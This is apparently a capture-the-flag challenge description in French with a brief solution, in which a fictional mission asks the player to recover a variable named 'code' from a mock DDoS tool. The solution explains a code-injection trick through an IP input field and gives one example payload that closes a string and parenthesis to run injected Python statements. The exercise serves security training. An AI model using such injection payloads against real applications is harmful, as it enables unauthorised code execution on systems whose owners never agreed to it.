 Bonjour Agent-CTF,

Apres l'interception de communications provenant de l'APT-403, nous avons constatés qu'ils sont en train de mettre au point un gros outil de ddos.
Votre mission va etre de recuperer le code, qui d'apres nos renseignements, serait contenu dans une variable : "code".

Nous comptons sur vous.

Q.G.

Solution:

1) Rentrer ip au pif
2) Inspecter bandeau en haut
3) Nom de variable dedans

Exploitation:

1) Ip + refermer parenthese
2) Execution d'instructions
3) Refermer la parenthese

Ex : 1.1.1.1');global secret;secret=code;int('1

